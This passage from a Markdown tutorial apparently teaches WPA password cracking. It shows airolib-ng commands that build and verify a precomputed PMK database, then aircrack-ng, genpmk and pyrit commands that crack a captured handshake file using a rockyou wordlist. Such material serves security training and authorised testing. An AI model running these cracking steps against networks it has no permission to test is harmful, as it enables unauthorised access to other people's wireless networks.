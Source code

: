 ```bash
airolib-ng PMKsWordlist --import essid essid.lst
```

We can use the following command to see if everything is correctly defined:

```bash
airolib-ng PMKsWordlist --stats
```

*Airolib-ng* has a utility to clean the passwords and the ESSIDs in our PMKs Wordlist. This utility removes the blank and non readable elements. We can use it with the following command:

```bash
airolib-ng PMKsWordlist --clean all
```

Lastly, we can use the following command to convert all the plain passwords to PMKs:

```bash
airolib-ng PMKsWordlist --batch
```

We can verify if the PMKs wordlist has been succesfully created using the *--verify* tag in *airolib-ng*. This command will test 10.000 randomly chosen PMKs:

```bash
airolib-ng PMKsWordlist --verify
```

Once we have the PMKs wordlist, we can crack our *.cap* file with *aircrack-ng* using the following syntax:

```bash
aircrack-ng -r PMKsWordlist Handshake.cap
```

This method is very fast compared to traditional cracking, but with other tools like *Cowpatty* or *Pyrit* speed can be improved.

### Genpmk

We have seen how to create the PMKs wordlist with the *aircrack-ng* suite, now we are going to see a tool called *Genpmk*. This tool allows us to create a PMKs wordlist that can be used with various tools.

To create the PMKs wordlist we will use the following command:

```bash
genpmk -f rockyou.txt -d dic.genpmk -s ESSID
```

#### Pyrit

Now, we will use the previously created wordlist with the *Pyrit* tool. This tool will give us one of the fastest cracking rates of all methods.

To crack the *.cap* file with our PMKs wordlist we will do the following:

```bash
pyrit -i dic.genpmk -e ESSID -r Handshake.cap attack_cowpatty
```
